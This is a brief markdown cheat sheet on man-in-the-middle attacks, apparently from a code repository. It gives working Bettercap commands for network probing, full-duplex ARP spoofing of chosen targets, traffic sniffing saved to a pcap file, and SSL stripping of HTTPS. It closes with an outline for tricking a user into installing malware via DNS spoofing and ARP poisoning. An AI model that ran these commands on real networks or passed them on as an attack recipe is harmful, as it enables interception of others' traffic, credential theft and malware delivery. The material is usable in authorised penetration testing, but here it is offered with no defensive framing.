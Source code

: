 # MITM

### Cain and Abel

For Windows (DEPRECATED)



### MITMF

For Linux (DEPRECATED)



### Bettercap

Better version of Ettercap

#### To see help for a command

`help command`

#### To see which devices are connected to network

`net.show`

#### To scan for devices in network

`net.probe on`

#### Arp Spoofing

In order to capture both external and internal traffic `set arp.spoof.fullduplex true`

To set a specific target `set arp.spoof.targets ip`

To Turn On `arp.spoof on`

To start sniffing `set net.sniff.local true`

Turn on sniffing `net.sniff on`

To save sniffed traffic `set net.sniff.output pentest.pcap`

To check https unencrypted traffic using ssl strip `set http.proxy.sslstrip true`



### Make User install malware using MITM

1. DNS SPOOFING
2. ARP POISONING
3. SNIFFING
4. Make user download malware in his pc

